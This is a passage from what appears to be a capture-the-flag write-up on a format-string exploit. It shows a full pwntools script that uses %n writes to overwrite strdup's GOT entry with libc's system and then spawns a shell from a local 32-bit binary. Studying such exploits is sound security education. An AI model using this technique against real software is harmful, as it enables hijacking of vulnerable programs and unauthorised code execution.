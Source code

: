 Basically what we want to do next is write a certain amount of bytes and with that change the address of `strdup()`.

I do this 4 times to overwrite the 4 2byte positions of `strdup()` within the GOT.

{% highlight python %}
#!/usr/bin/env python

import argparse
from pwn import *
from pwnlib import *

context.arch ='i386'
context.os ='linux'
context.endian = 'little'
context.word_size = '32'
context.log_level = 'DEBUG'

binary = ELF('./binary/vuln')
libc = ELF('/lib/i386-linux-gnu/libc-2.23.so')


def pad(s):
    return s+"X"*(512-len(s))


def main():
    parser = argparse.ArgumentParser(description='pwnage')
    parser.add_argument('--dbg', '-d', action='store_true')
    args = parser.parse_args()

    exe = './binary/vuln'

    strdup_plt = 0x804a014
    system_libc = 0xf7e37da0

    exploit = "sh;#    "

    exploit += p32(strdup_plt)
    exploit += p32(strdup_plt+1)
    exploit += p32(strdup_plt+2)
    exploit += p32(strdup_plt+3)

    exploit += "%9$136x"
    exploit += "%9$n"

    exploit += "%221x"
    exploit += "%10$n"

    exploit += "%102x"
    exploit += "%11$n"

    exploit += "%532x"
    exploit += "%12$n"



    padding = pad(exploit)

    if args.dbg:
        r = gdb.debug([exe], gdbscript="""
                b *vuln+92
                b *vuln+98
                continue
                """)
    else:
        r = process([exe])

    r.send(padding)
    r.interactive()


if __name__ == '__main__':
    main()